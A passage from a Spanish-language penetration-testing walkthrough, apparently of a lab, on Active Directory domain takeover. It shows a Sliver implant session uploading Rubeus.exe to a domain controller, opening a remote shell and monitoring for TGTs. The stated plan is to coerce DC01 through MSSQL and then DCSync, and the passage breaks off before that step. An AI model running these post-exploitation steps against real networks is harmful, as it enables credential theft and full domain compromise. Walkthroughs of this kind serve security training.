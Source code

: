 Aunque hayamos recibido el __Implant Timeout__ recibimos satisfactoriamente la sesión como la poderosísima `NT AUTHORITY\SYSTEM`; 

### Domain Take Over DCSync

Ahora, __¿qué sigue?__ Definitivamente podemos intentar varias cosas, intentar hacer un _Golden Ticket_, pero lamentablemente, el dominio sí está configurado correctamente para que un dominio externo, no pueda impersonificar a una cuenta del dominio interno pero no todo está perdido. ¿Qué tal, ya que controlamos el `DC02`, por qué no intentamos hacer que el `DC01` se autentique contra nosotros?.

Con este proceso, podemos obtener el `TGT` del `DC01` y hacer un `DCSync`

Entonces, tenemos algo claro a probar: Un `DCSync` pero recuerda que va con truco: necesitamos impersonificar al `DC01` y cómo lo hacemos?, Haciendo una solicitud desde `mssql`; veamos cómo funciona:

En una sesión de shell, subimos `rubeus` para empezar a monitorear los cambios en los tickets:

```js
sliver (MUDDY_CLAVICLE) > upload /home/n1c37ry05/Documents/Tools/windows/windows_Tooling/SharpCollection/NetFramework_4.0_Any/Rubeus.exe

[*] Wrote file to C:\Windows\Tasks\Rubeus.exe

sliver (MUDDY_CLAVICLE) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 168

PS C:\Windows\Tasks> ./Rubeus.exe monitor /interval:10
./Rubeus.exe monitor /interval:10

 (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: TGT Monitoring
[*] Monitoring every 10 seconds for new TGTs


[*] 10/13/2025 5:05:33 PM UTC - Found new TGT:

  <SNIP!>

```

Mientras que en `MSSQL` hacemos una petición para que solicite el `DC01` un ticket al `DC02` que es justo donde estamos a la escucha:
